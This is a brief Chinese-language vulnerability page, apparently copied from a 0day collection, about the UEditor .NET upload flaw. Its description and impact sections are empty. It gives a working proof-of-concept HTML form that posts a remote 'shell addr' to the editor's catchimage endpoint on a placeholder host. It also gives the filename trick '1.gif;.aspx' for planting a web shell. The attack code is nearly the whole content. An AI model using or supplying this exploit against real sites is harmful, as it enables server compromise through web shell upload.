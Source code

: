 # ueditor .net 版本上传漏洞

> 原文：[http://book.iwonder.run/0day/Ueditor/3.html](http://book.iwonder.run/0day/Ueditor/3.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

本地上传 poc

```
<form action="http://www.xxxxx.com/ueditor/net/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded"  method="POST">
shell addr: <input type="text" name="source[]" />
 <input type="submit" value="Submit" />
</form> 
```

上传文件名为 1.gif;.aspx

